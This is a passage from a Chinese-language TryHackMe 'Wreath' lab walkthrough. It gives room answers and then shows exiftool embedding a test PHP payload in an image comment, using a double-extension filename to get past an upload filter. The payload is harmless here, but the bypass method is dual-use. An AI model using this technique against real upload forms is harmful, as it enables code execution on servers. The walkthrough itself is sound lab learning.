 > What does Thomas have to phone Mrs Walker about?

> neighbourhood watch meetings

> Aside from the filter, what protection method is likely to be in place to prevent people from accessing this page?

> basic auth

> Which extensions are accepted (comma separated, no spaces or quotes)?

> jpg,jpeg,png,gift

# Task 37  Personal PC Exploit PoC

使用exiftool把php代码写进图片注释

```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# exiftool test-max.jpeg.php 
ExifTool Version Number         : 12.39
File Name                       : test-max.jpeg.php
Directory                       : .
File Size                       : 49 KiB
File Modification Date/Time     : 2022:08:25 01:57:37-04:00
File Access Date/Time           : 2022:08:25 01:57:37-04:00
File Inode Change Date/Time     : 2022:08:25 01:57:37-04:00
File Permissions                : -rw-------
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1646
Image Height                    : 254
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 3779
Pixels Per Unit Y               : 3779
Pixel Units                     : meters
Image Size                      : 1646x254
Megapixels                      : 0.418
                                                                                                                                                                                                                                            

┌──(root💀kali)-[~/tryhackme/Wreath]
└─# exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-max.jpeg.php
    1 image files updated
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# exiftool test-max.jpeg.php                                                             
ExifTool Version Number         : 12.39
File Name                       : test-max.jpeg.php
Directory                       : .
File Size                       : 49 KiB
File Modification Date/Time     : 2022:08:25 01:58:59-04:00
File Access Date/Time           : 2022:08:25 01:58:59-04:00
File Inode Change Date/Time     : 2022:08:25 01:58:59-04:00
File Permissions                : -rw-------
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1646
Image Height                    : 254
```